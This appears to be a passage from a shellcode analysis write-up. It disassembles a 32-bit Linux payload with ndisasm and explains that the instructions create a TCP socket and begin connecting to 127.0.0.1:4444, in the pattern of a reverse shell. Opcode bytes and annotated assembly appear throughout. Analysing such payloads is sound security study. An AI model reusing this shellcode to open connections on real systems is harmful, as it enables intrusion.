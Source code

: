 To analyze it with `ndisasm`:

```bash
ndisasm shellcode.bin -b 32 -p intel
```

It returns the following output (comments are mine though):

```nasm
                            ; push 0x00000000
00000000  31DB              xor ebx,ebx
00000002  53                push ebx

                            ; push 0x00000001
00000003  43                inc ebx
00000004  53                push ebx

                            ; push 0x02
00000005  6A02              push byte +0x2

                            ; push 0x00000066
00000007  6A66              push byte +0x66

                            ; EAX = 0x66 (102)
00000009  58                pop eax

                            ; 2nd argument of socketcall(): pointer to arguments of SYS_BIND
0000000A  89E1              mov ecx,esp

                            ; call socketcall syscall
0000000C  CD80              int 0x80
```

The instructions above can be converted into the following C code:

```cpp
#define AF_INET       2
#define SOCK_STREAM   1
#define IPPROTO_IP    0

int fd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
```

So, up until now, it created a TCP socket. The file descriptor of the new socket is stored into `EAX`.

Next, the shellcode connects to the server socket ( `127.0.0.1:4444`):

```nasm
                            ; exchanges EAX and EDI
0000000E  97                xchg eax,edi

                            ; EBX = 0x2
0000000F  5B                pop ebx

                            ; inet_aton("127.0.0.1")
00000010  687F000001        push dword 0x100007f

                            ; htons(4444)
00000015  6668115C          push word 0x5c11

                            ; push 0x00000002
00000019  6653              push bx

                            ; 2nd argument of connect(): pointer to sockaddr struct
0000001B  89E1              mov ecx,esp

                            ; syscall 102 (0x66): socketcall
0000001D  6A66              push byte +0x66
```